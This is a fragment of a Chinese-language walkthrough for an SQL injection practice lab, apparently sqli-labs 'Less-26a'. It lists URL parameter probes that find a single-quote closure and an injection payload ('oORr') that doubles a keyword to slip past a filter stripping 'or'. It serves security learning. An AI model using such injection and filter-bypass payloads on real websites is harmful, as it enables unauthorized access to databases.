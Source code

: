 ![](img/Less-26.5.png)

![](img/Less-26.6.png)

 
## Less-26a

+ 输入:
```bash
?id=1"  # 页面显示正常， 
?id=1’  # 页面报错， 报错可知，闭合方式 ： ‘ 单引号 
强制注释 
```
注入测试：
```bash
?id=1'oORr'1'='1   # 页面回显正常 
```
